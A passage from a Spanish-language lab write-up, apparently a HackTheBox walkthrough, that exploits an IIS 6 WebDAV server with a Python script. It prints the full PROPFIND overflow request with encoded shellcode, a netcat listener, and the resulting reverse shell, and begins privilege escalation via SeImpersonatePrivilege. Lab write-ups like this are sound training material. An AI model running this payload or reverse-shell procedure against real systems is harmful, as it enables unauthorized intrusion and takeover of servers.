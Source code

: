 ```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
```

Ejecutaremos el explooit indicándole el target (máquina victima) y el puerto en donde se encuentra el `IIS` expuesto, también informaremos nuestra dirección IP de atacante y el puerto en donde estamos en escucha.

```bash
❯ python2 IIS6.py 10.10.10.15 80 10.10.16.5 444
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```

Verificaremos que hemos logrado obtener el acceso a la máquina objetivo.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.15] 1033
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

## Privilege Escalation

### Token Kidnapping - Churrasco

Revisando los permisos que dispone el usuario actual `NT AUTHORITY\NETWORK SERVICE`, nos encontramos que dispone del privilegio de `SeImpersonatePrivilege`.

```bash
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```
